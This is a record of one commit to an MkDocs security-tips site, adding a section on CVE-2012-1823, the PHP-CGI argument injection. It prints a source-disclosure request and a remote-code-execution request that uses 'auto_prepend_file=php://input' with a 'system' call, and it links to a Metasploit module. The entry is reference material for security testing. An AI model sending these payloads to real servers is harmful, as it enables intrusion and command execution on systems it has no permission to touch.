

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/php.md, in a window 1280 px wide and 900 px high, scrolled down 1256 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add CVE-2012-1823 (PHP CGI)

````diff
--- a/docs/php.md
+++ b/docs/php.md
@@ -57,3 +57,22 @@ stat
 touch
 unlink
 ```
+
+
+## CVE-2012-1823: RCE in PHP-CGI
+
+PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.
+
+You can show the page source code:
+```
+GET https://<host>/file.php?-s
+```
+
+Or even execute PHP scripts (or a remote code execution)
+```
+POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input
+
+<?php system('whoami'); ?>
+```
+
+More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)
````
